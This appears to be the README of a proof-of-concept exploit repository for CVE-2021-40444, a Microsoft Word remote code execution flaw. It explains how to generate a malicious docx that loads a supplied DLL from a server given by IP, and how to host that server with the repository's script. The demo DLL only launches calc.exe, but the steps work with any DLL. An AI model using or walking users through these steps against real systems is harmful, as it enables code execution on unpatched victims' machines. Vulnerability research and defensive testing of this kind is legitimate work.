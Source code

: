 # CVE-2021-40444 PoC

Malicious docx generator to exploit CVE-2021-40444 (Microsoft Office Word Remote Code Execution)

Creation of this Script is based on some reverse engineering over the sample used in-the-wild: 938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52 (docx file)

You need to install lcab first (`sudo apt-get install lcab`)

Check `REPRODUCE.md` for manual reproduce steps

If your generated cab is not working, try pointing out exploit.html URL to calc.cab

# Using

First generate a malicious docx document given a DLL, you can use the one at `test/calc.dll` which just pops a `calc.exe` from a call to `system()`

`python3 exploit.py generate test/calc.dll http://<SRV IP>`

![Document generation](./img/gen.png)

Once you generate the malicious docx (will be at `out/`) you can setup the server:

`sudo python3 exploit.py host 80`

![Server](./img/srv.png)

Finally try the docx in a Windows Virtual Machine:

![Pop Calc](./img/calc.png)
